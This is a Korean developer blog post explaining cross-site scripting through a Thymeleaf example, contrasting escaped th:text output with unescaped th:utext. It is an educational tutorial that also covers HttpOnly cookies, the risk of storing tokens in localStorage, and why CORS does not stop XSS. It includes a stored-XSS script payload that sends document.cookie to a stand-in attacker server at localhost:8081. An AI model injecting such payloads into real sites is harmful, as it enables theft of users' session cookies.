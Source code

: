 ```yaml
---
layout: post
title:  "XSS(cross-site scripting) 공격"
subtitle: "XSS(cross-site scripting) 공격"
categories: development
tags: security
comments: false
---
```


# 설명

XSS 는 쉽게 말하면 해커가 자바스크립트 코드를 웹페이지에 심어 사용자의 정보를 탈취하는 종류의 공격이다. 일반적으로 웹 어플리케이션들은 사용자로부터 데이터를 입력받게 되는데 이 데이터에 해커가 자바스크립트 코드를 심어 놓을 수 있는 것이다. 

쉽게 생각해 게시판에 글을 쓴다고 생각해보자. 글 내용에 해커가 자바스크립트 코드를 심어 놓고 사용자들이 이 글을 보면서 동시에 자바스크립트 코드가 실행되어 해커가 원하는 것을 얻을 수 있게 된다. 

물론 이런 공격은 많이 알려져 있기 때문에 대부분에 이와 같은 입력은 사전에 필터링을 통해 차단한다. 그럼에도 불구하고 이와 같은 공격에는 여러가지 우회 방법이 존재할 수 있기 때문에 튼튼하게 방어해 놓지 않는다면 위험이 늘 존재하는 것이다.

# 예제 코드 - Thymeleaf에서의 XSS 테스트

### Thymleaf에는 XSS를 막아주는 필터링이 들어가있다.

```html
<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
  <title>Getting Started: Serving Web Content</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
회원 리스트
<tr th:each="user : ${users}">
  <td th:text="${user.name}"></td>
</tr>

</body>
</html>
```

![image](https://user-images.githubusercontent.com/41244373/118912306-9143b800-b962-11eb-9626-e5ca96eecfc8.png)

타임리프 문법에서 `th:text`를 사용하게 되면, XSS 공격에 대해서 막아주는 필터링이 적용된다.

### Thymleaf에서 XSS를 막아주는 필터링을 없애보자.

타임리프 문법에서 `th:text` 대신에 `th:utext`를 사용하면 HTML 태그를 넣을 수 있다. 하지만 HTML 태그를 넣을 수 있게 되어서 XSS 공격으로부터 취약해진다. 

![image](https://user-images.githubusercontent.com/41244373/118912323-96a10280-b962-11eb-9e55-a3aa55f5439c.png)

## 해커가 되어서 쿠키를 해킹해보자.

![image](https://user-images.githubusercontent.com/41244373/118912333-9a348980-b962-11eb-8d42-bc97738fb817.png)

입력하는 곳에 밑의 코드를 입력하자.

```html
<script>fetch(`http://localhost:8081?token=${document.cookie}`)</script>
```

클라이언트의 쿠키에 대한 정보를 해커의 서버([localhost:8081](http://localhost:8081)라고 가정)로 보내는 코드이다. 

![image](https://user-images.githubusercontent.com/41244373/118912340-9e60a700-b962-11eb-9b32-2f9aff70922f.png)

회원 리스트를 조회하는 곳에 들어가면, 쿠키에 대한 정보를 해커의 서버로 보내는 `<script>`가 추가된 것을 볼 수 있다. 이 때문에, 회원 리스트를 볼 수 있는 페이지에 들어가는 클라이언트들은 전부 다 쿠키에 대한 정보를 해커의 서버로 보내버리게 되는 것이다. 

![image](https://user-images.githubusercontent.com/41244373/118912376-af111d00-b962-11eb-8806-9369f7541479.png)

### 위와 같은 공격은, 쿠키에 HttpOnly 설정을 하면 막을 수 있다.

쿠키에 HttpOnly 설정을 하게 되면, JavaScript 코드로 쿠키에 대한 정보를 얻을 수 있는 방법이 아예 사라진다. 즉, `document.cookie`를 사용해도 쿠키가 조회되지 않는 것이다. 이를 활용해 XSS 공격으로부터 막을 수 있다. 

### 토큰을 LocalStorage에 저장하면 XSS에 취약해진다.

토큰을 LocalStorage에 저장하게 되면, JavaScript 코드(`localStorage.getItem()`)로 토큰에 대한 정보를 쉽게 얻을 수 있게 된다. 쿠키와는 다르게 LocalStorage에는 HttpOnly와 같은 설정이 없어서, XSS를 막을 방법이 없다. 이 때문에, 토큰을 LocalStorage가 아닌 Cookie에 저장할 것을 권장한다. 

# Q&A

### CORS가 XSS를 막아주는 것은 아니다.

[How does CORS prevent XSS?](https://security.stackexchange.com/questions/108835/how-does-cors-prevent-xss)

위의 예제 코드를 봐서 알겠지만, CORS 정책과 XSS는 전혀 상관이 없음을 알 수 있을 것이다.